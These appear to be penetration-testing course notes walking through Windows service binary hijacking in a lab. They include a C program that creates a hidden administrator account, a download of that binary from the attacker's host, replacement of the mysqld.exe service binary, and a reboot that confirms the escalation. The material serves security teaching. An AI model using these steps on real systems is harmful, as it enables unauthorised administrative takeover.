 # Service binary hijacking

{% hint style="danger" %}
When using a network logon such as WinRM or a bind shell, Get-CimInstance and Get-Service will result in a "permission denied" error when querying for services with a non-administrative user. Using an interactive logon such as RDP solves this problem.
{% endhint %}

{% code title=" List of services with binary path" overflow="wrap" lineNumbers="true" %}
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
{% endcode %}

**icacls permissions mask**

We can choose between the traditional _icacls_ Windows utility or the PowerShell Cmdlet _Get-ACL_.For this example, we'll use icacls since it usable both in PowerShell and the Windows command line.

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

{% code title="Permissions of httpd.exe" overflow="wrap" lineNumbers="true" %}
```
icacls "C:\xampp\apache\bin\httpd.exe"
PS C:\Users\dave> icacls "C:\xampp\apache\bin\httpd.exe"
C:\xampp\apache\bin\httpd.exe BUILTIN\Administrators:(F)
                              NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Users:(RX)
                              NT AUTHORITY\Authenticated Users:(RX)

Successfully processed 1 files; Failed processing 0 files
```
{% endcode %}

{% code title="Permissions of mysqld.exe" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```
{% endcode %}

{% code title="adduser.c code" overflow="wrap" lineNumbers="true" %}
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}

```
{% endcode %}

Next, we'll cross-compile the code on our Kali machine with _mingw-64_ as we learned in the Module "Fixing Exploits". Since we know that the target machine is 64-bit, we'll cross-compile the C code to a 64-bit application with **x86\_64-w64-mingw32-gcc**. In addition, we use **adduser.exe** as argument for **-o** to specify the name of the compiled executable.

{% code title="Cross-Compile the C Code to a 64-bit application" overflow="wrap" lineNumbers="true" %}
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
{% endcode %}

{% code title="Replacing mysqld.exe with our malicious binary" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
{% endcode %}

{% code title="Attempting to stop the service in order to restart it" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> net stop mysql
System error 5 has occurred.

Access is denied.
```
{% endcode %}

{% code title="Obtain Startup Type for mysql service" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

Name  StartMode
----  ---------
mysql Auto

```
{% endcode %}

In order to issue a reboot, our user needs to have the privilege _SeShutDownPrivilege_ assigned. We can use **whoami** with **/priv** to get a list of all privileges.

{% code title="Checking for reboot privileges" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```
{% endcode %}

The _Disabled_ state only indicates if the privilege is currently enabled for the running process. In our case, it means that whoami has not requested and is not currently using the SeShutdownPrivilege privilege.

{% code title="Rebooting the machine" overflow="wrap" lineNumbers="true" %}
```
 shutdown /r /t 0 
```
{% endcode %}

{% code title="User dave2 added" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> Get-LocalGroupMember administrators

ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local
User        CLIENTWK220\BackupAdmin   Local
User        CLIENTWK220\dave2         Local
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\offsec        Local
```
{% endcode %}

We can use _RunAs_ to obtain an interactive shell. In addition, we could also use _msfvenom_ to create an executable file, starting a reverse shell.
